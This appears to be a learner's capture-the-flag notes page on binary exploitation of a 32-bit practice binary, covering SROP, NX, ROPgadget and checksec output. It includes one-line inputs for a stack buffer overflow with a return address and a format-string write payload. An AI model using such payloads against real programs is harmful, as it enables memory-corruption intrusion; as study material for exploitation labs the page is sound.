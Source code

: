 # Lesson
- Sigreturn-oriented programming (SROP)  
  https://en.wikipedia.org/wiki/Sigreturn-oriented_programming  
- NX bit  
  whether shellcode is effective or not  
  https://d2v.hatenablog.com/entry/2021/06/24/003258  
- `ROPgadget`  
  `ROPgadget` is installed with pwntools.
  ```zsh
  # use python3 with pwntools
  $ ROPgadget --binary ./vuln --re "pop ebx"
  ```
- how to input bytes value on stdin
  ```zsh
  (python -c "print 'a' * 76 + '\xe6\x85\x04\x08';") | ./vuln
  ```
  or
  ```zsh
  $ echo -e '\xdd\xcc\xbb\xaa%46c%6$n' | ./q4
  ```
  - how can I input bytes value during `pwndbg`  
    This does not work well.
    ```
    n << (python -c "print '\x90\x90'")
    n << (echo -e '\x90\x90')
    ```

# Memo
1. check
```zsh
$ file ./vuln
./vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec --file=./vuln --output=json | jq .
{
  "./vuln": {
    "relro": "partial",
    "canary": "no",
    "nx": "no",
    "pie": "no",
    "rpath": "n/a",
    "runpath": "n/a",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "0"
  }
}
```

# Ref  
- https://qiita.com/housu_jp/items/2be2b8147f35a4d6a6ce  
